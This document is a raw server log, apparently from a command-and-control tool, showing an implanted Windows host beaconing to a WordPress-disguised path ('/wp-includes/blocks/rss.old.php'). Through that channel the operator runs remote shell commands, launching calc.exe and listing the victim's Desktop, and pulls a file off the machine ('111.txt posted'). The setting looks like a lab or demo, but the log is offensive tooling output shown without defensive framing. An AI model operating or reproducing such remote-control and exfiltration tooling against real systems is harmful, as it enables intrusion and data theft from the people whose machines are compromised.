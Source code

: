 ```bash
[GIN] 2024/02/26 - 13:43:43 |[97;42m 200 [0m|     15.2158ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:43:50 |[97;42m 200 [0m|      2.0944ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 437 > NUL

C:\Windows\system32>calc.exe

C:\Windows\system32>exit

[GIN] 2024/02/26 - 13:43:53 |[97;42m 200 [0m|      1.0216ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:00 |[97;42m 200 [0m|      1.9848ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 437 > NUL

C:\Windows\system32>dir C:\Users\admin\Desktop
 Volume in drive C has no label.
 Volume Serial Number is DEA8-B705

 Directory of C:\Users\admin\Desktop

2024/02/26  11:31    <DIR>          .
2024/02/26  11:31    <DIR>          ..
2024/02/22  23:13               507 111.txt
2011/09/29  09:22            32,256 apateDNS.exe
2019/01/23  23:23            45,272 nc64.exe
2023/11/27  14:41             2,182 Process Hacker 2.lnk
2023/11/27  14:39    <DIR>          snapshot_2023-11-18_02-28
2023/11/27  14:40             1,315 x96dbg.exe - ????.lnk
              15 File(s)     14,600,939 bytes
               4 Dir(s)  49,213,665,280 bytes free

C:\Windows\system32>exit

[GIN] 2024/02/26 - 13:44:00 |[97;42m 200 [0m|      1.9138ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:06 |[97;42m 200 [0m|       652.7µs | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"

[GIN] 2024/02/26 - 13:44:06 |[97;42m 200 [0m|         521µs | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:08 |[97;42m 200 [0m|      3.0731ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a [+] File C:\Users\admin\Desktop\111.txt posted

[GIN] 2024/02/26 - 13:44:08 |[97;42m 200 [0m|      1.4707ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
```
